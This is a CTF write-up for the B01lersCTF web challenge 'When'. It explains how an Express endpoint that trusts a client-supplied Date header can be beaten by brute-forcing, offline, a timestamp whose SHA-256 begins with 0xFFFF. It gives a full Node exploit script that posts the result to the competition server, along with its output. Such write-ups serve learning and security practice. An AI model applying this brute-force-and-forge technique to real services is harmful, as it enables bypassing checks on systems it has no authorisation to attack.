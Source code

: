 +++
date = '2025-04-21T23:11:00+03:00'
draft = false
title = 'B01lersCTF - When (Web)'
+++

## Overview

The challenge is a small Express app in which a user can hit anywhere on the page to "gamble".

## Reviewing the code

After reading `app.ts`, we can see that there is a rate-limiter in place so directly bruteforcing via HTTP is obviously impossible.
There is a `gamble(number)` function that returns a SHA-256, it is used to issue hashes from JavaScript dates.
```js
async function gamble(number: number) {
    return crypto.subtle.digest("SHA-256", Buffer.from(number.toString()))
}
```

Here comes the interesting part, the Express app serves a POST endpoint `/gamble`, which can optionally use a `Date` HTTP header to perform the "calculation". 

Let's see the code:
```js
app.post('/gamble', (req, res) => {
    const time = req.headers.date ? new Date(req.headers.date) : new Date()
    const number = Math.floor(time.getTime() / 1000)
    if (isNaN(number)) {
        res.send({
            success: false,
            error: "Bad Date"
        }).status(400)
        return
    }
    gamble(number).then(data => {
        const bytes = new Uint8Array(data)
        if (bytes[0] == 255 && bytes[1] == 255) {
            res.send({
                success: true,
                result: "1111111111111111",
                flag: "bctf{fake_flag}"
            })
        } else {
            res.send({
                success: true,
                result: bytes[0].toString(2).padStart(8, "0") + bytes[1].toString(2).padStart(8, "0")
            })
        }
    })
});
```

The endpoint computes a SHA-256 hash from the Unix timestamp extracted from the Date header. If the first two bytes of the hash are 255, the server returns the flag.

## Writing an exploit

To pass the backend checks, we need to find a Unix timestamp `T` such that:
```js
Uint8Array(SHA256(T.toString()))[0] === 255
Uint8Array(SHA256(T.toString()))[1] === 255
```
We can brute-force locally since the same logic is used in the backend. Once we find the right value, we send a POST request with a `Date` header set to that exact time.

Here's the full exploit:
```js
import crypto from "crypto";

function gamble(number) {
    return crypto.createHash("sha256").update(number.toString()).digest();
}

function findFF() {
    /*
    we're looping over increasing unix timestamps in seconds, starting from 0 Jan 1970 up to 1e8 (some years later)
    for each timestamp: we convert it to a string; hash it; check if first two bytes are equal to 255 (0xff in hex)
    */
    for (let i = 0; i < 1e8; i++) {
        const hash = gamble(i);
        if (hash[0] === 0xff && hash[1] === 0xff) {
            console.log("Found it:", i);
            return i;
        }
    }
    throw new Error("Not found");
}

const timestamp = findFF();
const time = new Date(timestamp * 1000);

console.log("Timestamp:", timestamp);
console.log("Date:", time.toISOString());

const hash = gamble(timestamp);
console.log("First two bytes:", hash[0], hash[1]);
console.table(Array.from(hash));

const response = await fetch("https://when.atreides.b01lersc.tf/gamble", {
    method: "POST",
    headers: {
        "Date": time.toISOString()
    }
})

const data = await response.json()
console.log(data.flag)
```

In less than a second, it finds the right timestamp and fetches the flag:
```
Found it: 30398
Timestamp: 30398
Date: 1970-01-01T08:26:38.000Z
First two bytes: 255 255
┌─────────┬────────┐
│ (index) │ Values │
├─────────┼────────┤
│ 0       │ 255    │
│ 1       │ 255    │
│ 2       │ 142    │
│ 3       │ 213    │
│ 4       │ 111    │
│ 5       │ 101    │
│ 6       │ 202    │
│ 7       │ 240    │
│ 8       │ 1      │
│ 9       │ 159    │
│ 10      │ 144    │
│ 11      │ 214    │
│ 12      │ 91     │
│ 13      │ 127    │
│ 14      │ 21     │
│ 15      │ 139    │
│ 16      │ 134    │
│ 17      │ 46     │
│ 18      │ 252    │
│ 19      │ 171    │
│ 20      │ 92     │
│ 21      │ 69     │
│ 22      │ 23     │
│ 23      │ 167    │
│ 24      │ 108    │
│ 25      │ 1      │
│ 26      │ 199    │
│ 27      │ 58     │
│ 28      │ 207    │
│ 29      │ 146    │
│ 30      │ 217    │
│ 31      │ 155    │
└─────────┴────────┘
bctf{}
```

## Conclusion
This was a neat little challenge where the actual vulnerability wasn't in the logic itself but in the assumption that it wouldn't be feasible to find a timestamp that triggers the condition. A little brute-force let us beat the odds and win the gamble. Hope you had fun!